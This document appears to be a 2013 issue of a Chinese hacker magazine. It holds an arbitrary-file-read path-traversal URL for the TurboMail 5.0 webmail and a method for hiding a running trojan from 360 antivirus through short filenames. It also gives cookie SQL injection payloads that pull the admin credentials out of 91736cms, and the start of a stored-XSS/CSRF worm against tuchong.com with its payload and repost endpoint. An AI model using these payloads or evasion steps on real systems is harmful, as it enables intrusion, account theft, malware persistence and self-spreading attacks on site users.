# 黑客防线2013年全

---

# 《黑客防线》1期文章目录

总第145期 2013年

### 漏洞攻防

- 揭秘 TurboMail 5.0 邮件系统安全 0Day .................................. 2
- 短文件名逃脱 360 云查杀 ............................................. 4
- 利用河马 Cookie 修改器击破 91736cms ............................... 7
- 编写图虫网 XSS worm ................................................ 9
- D-Link DSR-250N 的神秘帐号 ....................................... 14

### 编程解析

- 编程实现 CMD5.com 解密 ........................................... 16
- 反外挂保护游戏的关键调用 ......................................... 22
- Python 编程之 FTP 暴力破解 ....................................... 27
- 幕后的英雄：Windows 服务 ......................................... 30
- 编写谷歌浏览器插件免费使用迅雷会员 ............................... 35
- 利用 Cookies 实现网站自动登录 .................................... 37

### 网络安全顾问

- 跨平台感染挑战电子银行动态口令认证 ............................. 42
- 征稿启示 ........................................................ 48

### 揭秘 TurboMail 5.0 邮件系统安全 0Day

文/图 爱无言

记得几年前，自己曾疯狂地研究过一阵有关邮件系统的安全漏洞，那个时候国内外比较知名的邮件系统都被我拿来练手，在发现安全漏洞的同时也认识了一些不错的软件项目负责人，这其中就包括 TurboMail。时隔多年，经过不断的发展，TurboMail 邮件系统在国内的邮件服务软件领域已经占有一席之地。当然，好的邮件系统在服务用户的同时，其自身的安全性也是非常关键的。最近由于业务需要，我对 TurboMail 5.0 邮件系统进行了一次安全检测，发现了一些较为致命的安全漏洞，这里拿出来作为案例进行分析学习，希望 TurboMail 能够及时修正这些安全漏洞，更好地提高软件品质。

我们入手分析的起点选择了 TurboMail 邮件系统的 WebMail 服务，因为这是一个最为常用的功能。在顺利安装好 TurboMail 后，配置了一个邮件域名为“test.mail”，在其中建立了两个测试用户，分别为 test@test.mail 和 hack@test.mail。面对 WebMail 服务，我们最常想到的测试方向就是 XSS，我选择了从邮件内容入手。使用 test@test.mail 用户登录邮件系统，点击“写信”按钮，发现 TurboMail 邮件系统允许用户对邮件内容进行源代码层面的编辑，如图 1 所示。



```html
<DIV><BR><BR></DIV><BR><DIV id=autograph><DIV></DIV></DIV>
```

图 1

源代码编辑功能的存在使得 XSS 漏洞成为可能，非但如此，还发现了其他的地方同样存在 XSS 漏洞，如图 2 所示。



图 2

图 2 是 TurboMail 邮件系统为邮件用户提供的个人签名功能，允许用户在书写每一封电子邮件时，在邮件中插入自己的个性签名。这是一个非常人性化的功能，同样存在安全隐患，因为它也可以进行源代码层面的编辑，从而造成 XSS 漏洞的出现，如图 3 所示。



图 3

如果说 XSS 漏洞只能实现邮件系统用户之间的攻击，危害不大，那么下面将要登场的这个漏洞的危害性就大大增加了，因为利用它任意用户都可以实现对邮件服务器的攻击。

与以往的版本不同，TurboMail 5.0 大大改进了 WebMail 的调用结构，隐藏了一些实现细节。尽管如此，我们还是发现其中存在巨大的安全隐患。举例来说，viewfile.jsp 的实现代码就存在泄露服务器数据信息的安全漏洞。

```java
String mbtype = request.getParameter("mbtype");
//获取用户提交的 mbtype 参数
String msgid = request.getParameter("msgid");
//获取用户提交的 msgid 参数
String fileid = request.getParameter("fileid");
//获取用户提交的 fileid 参数
String filename = request.getParameter("filename");
//获取用户提交的 filename 参数
String realfilename = path + SysConts.FILE_SEPARATOR + fileid;
//组合各个参数为真实的文件名称
if(filename.endsWith(".txt")){...
//以下代码判断文件类型并输出文件内容
}else if(filename.endsWith(".pdf")){
    strContent = PDFUtil.getTextFromPDF(realfilename);
}else if(filename.endsWith(".doc")){
    strContent = POIUtil.getTextFromWord(realfilename);
}else if(filename.endsWith(".ppt")){
    strContent = POIUtil.getTextFromPowerPoint(realfilename);
}else if(filename.endsWith(".xls")){
    strContent = POIUtil.getTextFromExcel(realfilename);
}else if(filename.endsWith(".docx")){
    strContent = POIUtil.getTextFromPOIOXML_docx(realfilename);
    response.setContentType("text/html;charset=UTF-8");
}else if(filename.endsWith(".pptx")){
    strContent = POIUtil.getTextFromPOIOXML_pptx(realfilename);
    response.setContentType("text/html;charset=UTF-8");
}else if(filename.endsWith(".xlsx")){
    strContent = POIUtil.getTextFromPOIOXML_xlsx(realfilename);
    response.setContentType("text/html;charset=UTF-8");
}
```

从上述代码可以看到，viewfile.jsp 对来自用户方向的参数信息没有进行任何安全审核，再将这些参数组合起来后，就开始读取该指定文件，如此一来，我们便可以读取到服务器上的任意指定文件。这里为了演示，在 TurboMail 邮件系统的安装目录下放置了一个名为“1.doc”的 Word 文档，将其作为我们试图想要获取的服务器文件。之后使用 test@test.mail 用户登录邮件系统，在浏览器地址栏中输入网址：http://127.0.0.1:8080/tmw/0/viewfile.jsp?sessionid=你登录时产生的 sessionid&&fileid=1.doc&mbtype=x&msgid=..\..\..\..\turbomail&filename=1.doc，访问该网址，效果如图 4 所示。



图 4

很显然，我们的判断是对的，viewfile.jsp 确实存在信息泄露安全漏洞。诸如此类的问题，不仅有以上一种利用方法，可以说，凡是出现 viewfile.jsp 调用的地方，都可以实现读取指定文件，甚至可以直接越权获取他人邮件、数据等个人信息。比如说，读取他人的日志信息，我们可以这样访问：http://localhost:8080/tmw/0/viewfile/这里换成想要读取到的用户邮件地址+这里是具体某个日志的时间.log?type=usergl&useraccount=这里换成想要读取到的用户邮件地址&sessionid=你的 sessionid。

TurboMail 邮件系统的 WebMail 在实现文件控制方面存在很多安全问题，这里曝光的只是其中一部分。邮件系统的漏洞挖掘有很多方法技巧，本文旨在向读者展示其中一些针对 WebMail 漏洞挖掘的具体测试过程，希望读者不要利用本文提到的安全漏洞进行任何违法行为，作者与杂志概不负责。

## 短文件名逃脱 360 云查杀

文/swan

360 安全卫士的“云查杀”，从本质上讲就是其软件获取运行木马所有可能存在的地方，然后提取到 MD5 进行对比。要突破云查杀，最关键的就是让其找不到木马的本体文件，但是让一个文件运行却又找不到文件，这点比较难以办到。我曾经利用系统自身存在的快捷方式以及磁盘映射的方式（如 junction 和 subst）构建这样的文件，通俗地讲就是先将一个文件夹映射到一个虚拟目录，然后运行虚拟目录里面的木马文件，接着解除这种映射关系，这样软件根据木马运行的路径去获取木马，一定会失望而归。当然，再利用上面的方式对付 360 是没有效果了，而这个原理必须深深地牢记在心中，因为系统本身还存在一种方式能够再次利用其原理。

有些人常常因为某些原因而被大家取一个“绰号”，比如“医圣”张仲景的考试成绩不差，因此就成了长沙太守。也因为他允许当地的百姓都可以到衙门向其求医，而这种行医方法也让他有了个绰号叫“坐堂医生”。但并不是所有的“坐堂先生”都叫“张仲景”，“绰号”只适用于在特定时期特定环境之下。与此对应，电脑的文件夹名其实也有类似的“绰号”，我们习惯称之为“短文件名”。它的由来主要是在 FAT16 文件系统中，由于 FDT 中的文件目录登记项只为文件名保留了 8 个字节，为扩展名保留了 3 个字节，所以 DOS 和 Windows 的用户为文件起名字时要受到 8.3 格式的限制。但从 Windows 95 开始，这种限制被打破了，在 Windows 9x 中可以实现长文件名。

短文件名的规则有 4 个。对付云查杀，我们只要知道其中第一项并且会利用就可以了。第一个说的是“取长文件名的前 6 个字符加上‘~1’形成短文件名，扩展名不变”。第二个说的是如果已存在这个文件名，则符号“~”后的数字递增，直到 5。比如文件名为“360Downloads”的短名称为“360DOW~1”，若“360Downloadssssss”的短文件名“360DOW~1”已存在，则变为“360DOW~2”。

联系过云查杀的原理，假如我们先让一个文件运行后，“任务管理器”的路径变成类似“x:/test~1/mm.exe”就可以了，然后再更改长文件名对应的短文件名，360 就无法获取木马文件了。但通过测试发现，有两个问题我们无法避免。第一，只要我们在浏览器中进入以短文件名构建的地址，如“x:/test~1/”，就会自动解析为长文件名，这样就无法进入显示“短名称”的文件夹。第二，更改一个长文件名对应的短文件名，是无法实现的。运行 mm.exe 文件之后，短文件名为“test~1”的文件夹是被更名的，这是最基本的常识。以上的误区，就在于我只考虑手动运行一个文件，而未考虑利用其他方式运行，比如利用 cmd 命令。实战现在开始，为了更好地取信各位观众，我首先利用一个被 360 认定为木马的文件作为实验对象。

为了试验的继续进行，我先关闭 360 安全卫士，将木马文件暂时运行，其实这个文件就是一款黑客工具，唯一不同的是在 cmd 模式下运行，并且文件路径用的是短文件名。运行后在任务管理器得到的路径包含了短文件名，如图 1 所示。



图 1

为了证明测试的可信性，开启 360 安全卫士进行云查杀（快速扫描），从中知道这个文件是被查杀的，并且是经过云引擎被查杀（可以点击“查看”选项看出），如图 2 所示。



图 2

其实 Windows 系统有一个 BUG，假如它的运行路径是以上面的“短文件名”方式运行的话，长文件名下的木马文件是可以被删除的，而且其长文件名也是可以被改名的。简而言之，就是长文件名下的文件就等同于从未运行过。这里我以更改长文件名的名称做个演示，从图 3 可以清楚地看到当初的“360Downloads”已经被更改了，并且木马文件还存活，从进程列表可以看出。



图 3

此时如果我们再用 360 云查杀来扫描，结果显而易见。原因很简单，360 根据的是进程路径来查找木马文件的，而我们的路径早已经不存在了，甚至连文件都可以被删除而找不到，谈何提取 MD5 对比呢？如图 4 所示。



图 4

对付 360 云查杀，有些人希望通过频繁修改自身的 MD5 值来躲避查杀，但是效果不言而喻，因为 360 并非只靠 MD5 来查杀的，一旦被其认定为木马，定一下特征码，木马就从此不再免杀了。当然，有些人觉得让木马程序的大小足够大，就可以逃脱被上传的命运，但是这么大的文件，不是我们常说的“此地无银三百两”吗？最好的办法当然是运行后让 360 安全卫士无法提取到文件，也就是上面探讨的如何逃脱所谓的云查杀。有了这个方法，是不是新免杀的木马，就不怕被上传到 360 服务器上面去了呢？其实过 360 云查杀的简易方法，还有很多，最重要的是掌握最基础的内容，毕竟“摩天大楼平地起”。

## 利用河马 Cookie 修改器击破 91736cms

文/图 赵显阳

**91736cms** 是 91736.com 官方推出的一套通用内容管理系统，主要使用 PHP+MySQL+Smarty 技术进行开发。91736CMS 采用 OOP（面向对象）方式进行基础运行框架搭建。虽然这套系统的功能比较强大，但是安全性却不怎样。下面来看看它的一个漏洞。

分析代码 /system/modules/member/index.php 第 117 行。

```php
public function edit(){
    if(empty($_COOKIE['member_user'])||empty($_COOKIE['member_userid'])){
        showmsg(C("admin_not_exist"),"index.php?m=member&f=login");
    }
    $userid=$_COOKIE['member_userid']; //member_userid 没有过滤，导致注入。
    $info=$this->mysql->get_one("select    *    from    ".DB_PRE."member    where `userid`=$userid");

    $input=base::load_class('input');
    $field=base::load_cache("cache_field_member","_field");
    $fields="";
    foreach($field as $value){
        $fields.="<tr>\n";
        $fields.="<td align=\"right\"> ".$value['name'].'： </td>\n";
        $fields.="<td>".$input->$value['formtype']($value['field'],$info[$value['field']],$value['width'],$value['height'],$value['initial'])." ".$value['explain']."</td>\n";
        $fields.="</tr>\n";
    }
    assign('member',$info);
    assign("fields",$fields);
    template("member/edit");
}
```

可以看到函数 edit() 使用了 member_userid 参数，该参数从 Cookie 中获取，没有进行任何过滤就进入了查询，导致注入。利用时需要 member_user 不为空，如果 member_userid 和 member_user 有一个参数为空，则跳转到 showmsg(C("admin_not_exist"),"index.php?m=member&f=login");。

现在把河马 Cookie 修改器 1.1 请出来，构造 member_userid=1 and 1=(select * from (select name_const(user(),1),name_const(user(),1)) as x); member_user=a，如图 1 所示。



图 1

从图中可以看到爆出了 MySQL 的连接用户名 root@localhost。提交 member_userid=1 and 1=(select * from (select name_const((select username from c_admin),1),name_const((select username from c_admin),1)) as x)，河马 Cookie 修改器显示出了管理员的用户名 admin，如图 2 所示。



图 2

提交 member_userid=1 and 1=(select * from (select name_const((select password from c_admin),1),name_const((select password from c_admin),1)) as x)，河马 Cookie 修改器显示出管…管理员密码的 MD5 hash，如图 3 所示。



图 3

用得到的哈希值在 www.cmd5.com 解密，得到用户名 admin、密码 admin，即可登录后台，如图 4 所示。


图 4

本次渗透测试主要使用 Cookie 注入这个漏洞，而河马 Cookie 修改器 1.1 正好具有这个功能，通过注入得到了管理员密码的哈希值，解密后即可登录网站后台。

### 编写图虫网 XSS Worm

文/图 晴天小筑

本文主要介绍 XSS Worm 的编写以及思路，并以图虫网存在的一个 XSS 漏洞进行说明。实现的流程如下：找到一个存储型 XSS；利用网站的 CSRF 配合存储 XSS 来传播；获得 Cookies 并感染用户，用户继续传播 XSS 恶意代码；判断用户是否感染了我们的 XSS，中了就不感染，没中就返回上一步继续。

图虫网除了“创建新相册”存在存储 XSS，还有一处存在存储 XSS 漏洞的地方，如图 1 所示。在上传图片信息后，浏览文章就可以触发了。



图 1

利用找到的存储 XSS 漏洞，与 CSRF 代码配合，即可形成 XSS Worm。本文利用第二个存储 XSS 漏洞。

```html
<script src=XSS调用地址（如 http://xxx.com/c.js）></script>
```

现在漏洞找到了，之后还需要找到可以传播的方法，并获取相应的信息。在图虫网，我们可以利用关注小组来实现传播，这里关注如图 2 所示的小组，之后即可转发到小组，如图 3 所示。


图 2



图 3

POST 地址为：http://tuchong.com/api/post/repost/

POST 数据包：post_id=3986830(文章的)&site_id=100001(小组的)&content=%E9%BB%91%E9%98%B4%E9%98%B2%E7%BA%BF(转发所说的话)

效果如图 4 所示。

